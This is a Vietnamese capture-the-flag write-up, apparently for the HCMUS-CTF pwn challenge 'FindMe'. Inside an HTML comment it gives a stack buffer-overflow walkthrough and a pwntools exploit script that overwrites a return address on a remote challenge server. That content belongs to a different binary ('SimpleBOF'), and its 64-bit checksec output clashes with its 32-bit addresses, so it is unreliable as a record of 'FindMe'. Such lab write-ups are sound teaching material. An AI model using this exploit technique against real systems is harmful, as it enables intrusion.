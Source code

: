 ## ⚡ [FindMe](https://ctf.hcmus.edu.vn/challenges#FindMe)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/108-pts-brightgreen.svg)](https://img.shields.io/badge/108-pts-brightgreen.svg)

Tác giả: `pakkunandy`


Tags: `pwn` `bof` `rand` `ret2syscall`

<!--
### Challenge Description
-->

### Summary
<!--
Đây là challenge về buffer overflow.

Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec findme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Chương trình này chạy trên nhân x64, đã tắt hầu hết các bảo vệ.

Mở chương trình với **IDA**, ta kiểm tra hàm **main**:

```cpp
int main()
{
  ...
  char bof[64]; // [sp+0h] [bp-4Ch]@1
  ...

  clean();
  __isoc99_scanf("%s", bof);
  ...
  return 0;
}
```
Lỗ hổng xảy ra ở hàm `scanf` khi chương trình cố gắng đọc vào vùng nhớ `bof` trên stack nhưng lại không giới hạn số lượng kí tự nhập.



```cpp 
void success()
{
  char flag[64]; // [sp+Ch] [bp-4Ch]@4
  FILE *fp; // [sp+4Ch] [bp-Ch]@1

  fp = fopen("flag.txt", (const char *)&unk_8048810);
  if ( !fp )
  {
    puts("File not found?, please contact admin");
    exit(0);
  }
  fgets(flag, 64, fp);
  fclose(fp);
  puts(flag);
}
```
Ta dễ thấy thêm hàm **success**, dùng để in ra flag của challenge.

Như vậy, để tới được hàm trên, ta sẽ lợi dụng lỗ hổng stack overflow để ghi đè địa chỉ trả về của hàm **main** trên stack thành địa chỉ của hàm **success** và lấy flag.

### Exploit

- Tìm vị trí địa chỉ trả về của hàm main
    ```bash
    $ python -c 'print "A"*64 + "BBBB"' | strace ./SimpleBOF
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault (core dumped)
    ```
    Như vậy, sau **64** bytes offset thì địa chỉ trả về của hàm main (si_addr) bị ghi đè thành "BBBB" (là giá trị địa chỉ lệnh không hợp lệ dẫn đến break chương trình).




- Lấy địa chỉ của hàm **success**

    ```bash
    $ objdump -t SimpleBOF | grep success
    08048670 g     F .text  00000087              success
    ```

    Kết quả: **`0x08048670`**
- Local exploit
    
    Ta thay "BBBB" thành địa chỉ của hàm **success**, lưu ý chuẩn [Little Endian](https://en.wikipedia.org/wiki/Endianness)
    
    ```bash
    $ python -c 'print "A"*64 + "\x70\x86\x04\x08"' | ./SimpleBOF
    File not found?, please contact admin
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

## Code

```python
#!/usr/bin/env python

from pwn import *

e = ELF("./SimpleBOF")
p = remote("159.65.13.76", 63001)

offset = 64
success_addr = e.sym["success"]

payload = 'A'*offset + p32(success_addr)

p.sendline(payload)
p.interactive()
```
-->

📫 Flag: **`HCMUS-CTF{}`**

---
*[Back to table of contents](../README.md)*
